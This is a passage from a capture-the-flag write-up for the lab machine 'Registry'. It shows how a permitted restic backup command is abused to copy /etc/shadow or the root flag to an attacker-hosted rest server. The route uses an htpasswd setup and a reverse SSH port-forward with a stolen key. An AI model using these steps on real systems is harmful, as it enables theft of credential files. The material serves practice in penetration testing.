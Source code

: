 ⇒ So the following command backups a file we want to backup to an rest server repository. So we can exploit this to backup /etc/shadow or /root/root.txt . To do that first we must host an rest server, create a repository and then port forward it using ssh

- Creating the repo :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Registry%20Box%209916a096cda74f3ba3a69564d298c0ec/Untitled%2019.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Registry%20Box%209916a096cda74f3ba3a69564d298c0ec/Untitled%2019.png)

- Creating htpasswd file for our rest server to use

**htpasswd -B -c .htpasswd flag [ flag ]**
- Starting our rest server [https://github.com/restic/rest-server/](https://github.com/restic/rest-server/)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Registry%20Box%209916a096cda74f3ba3a69564d298c0ec/Untitled%2020.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Registry%20Box%209916a096cda74f3ba3a69564d298c0ec/Untitled%2020.png)

- Finally now lets portforward using ssh

**ssh -i id_rsa -R 8000:127.0.0.1:8000 -N -f bolt@registry.htb**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Registry%20Box%209916a096cda74f3ba3a69564d298c0ec/Untitled%2021.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Registry%20Box%209916a096cda74f3ba3a69564d298c0ec/Untitled%2021.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Registry%20Box%209916a096cda74f3ba3a69564d298c0ec/Untitled%2022.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Registry%20Box%209916a096cda74f3ba3a69564d298c0ec/Untitled%2022.png)
